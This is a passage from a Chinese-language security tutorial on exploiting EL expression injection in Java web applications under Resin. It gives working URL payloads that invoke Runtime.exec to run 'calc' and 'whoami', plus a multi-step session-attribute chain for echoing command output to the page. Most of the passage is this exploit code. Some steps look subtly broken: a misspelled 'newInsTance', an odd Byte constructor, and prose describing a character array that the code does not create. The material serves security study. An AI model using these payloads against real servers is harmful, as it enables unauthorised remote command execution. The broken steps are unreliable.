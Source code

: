 效果如下图所示：

![此处输入图片的描述](http://drops.javaweb.org/uploads/images/21cd04b9e3f82ea29f14e074a4c6e272c70c198c.jpg)

下面我们来看下在Resin环境下的利用方法，先来看个直接的演示，访问链接：

```
http://localhost:8080/test.do?${pageContext.request.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("calc",null).toString()}  

```

效果如下图所示：

![此处输入图片的描述](http://drops.javaweb.org/uploads/images/7e0d5defd6c000ec3a46618e343eb9fb99dffbce.jpg)

我曾一度想要写出像Struts那样可以执行命令并回显的利用代码，但是由于EL表达式并没有提供变量和赋值的功能，让我不得不去想可以有相同的效果的方法。初步的思路是，利用EL可以存储任意类型session这个功能，对命令执行的结果流进行存储和处理，最后转换为字符串，打印到页面上。

我找到了打印任意内容到页面的方法，即通过EL提供的pageContext中response对象中的println方法。例如：访问

```
http://localhost:8080/test.do?a=${pageContext.response.getWriter().println('aaa')}  

```

会返回500错误，在错误中会显示我们的自定义内容：

![此处输入图片的描述](http://drops.javaweb.org/uploads/images/6130060279939710803ff03d76f31a7b7aa40f96.jpg)

下面只要将命令执行的结果流转换为String，输出给println函数即可。下面是按照我之前思路，构造的利用代码：

```
${pageContext.request.getSession().setAttribute("a",pageContext.request.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("whoami",null).getInputStream())}

${pageContext.request.getSession().setAttribute("b",pageContext.request.getClass().forName("java.io.InputStreamReader").getConstructor(pageContext.request.getClass().forName("java.io.InputStream")).newInstance(pageContext.request.getSession().getAttribute("a")))}

${pageContext.request.getSession().setAttribute("c",pageContext.request.getClass().forName("java.io.BufferedReader").newInstance(pageContext.request.getSession().getAttribute("b")))}

${pageContext.request.getSession().setAttribute("d",pageContext.request.getClass().forName("java.lang.Byte").getConstructor(pageContext.request.getClass().forName("java.lang.Integer")).newInsTance(51020))}

${pageContext.request.getSession().getAttribute("c").read(pageContext.request.getSession().getAttribute("d"))}

${pageContext.response.getWriter().println(pageContext.request.getSession().getAttribute("d"))}

```

首先将命令执行结果流存储至session属性a中；然后将a属性的内容作为初始化InputStreamReader对象的参数，并将对象存储至b属性；第三步将b属性中的内容作为参数初始化BufferedReader对象，并将对象存储至c属性；第四步初始化一个字符数组，存储至d属性中；第五步将c中的内容通过read方法，放入到d属性中，及转化为字符；最后print出d属性中内容。
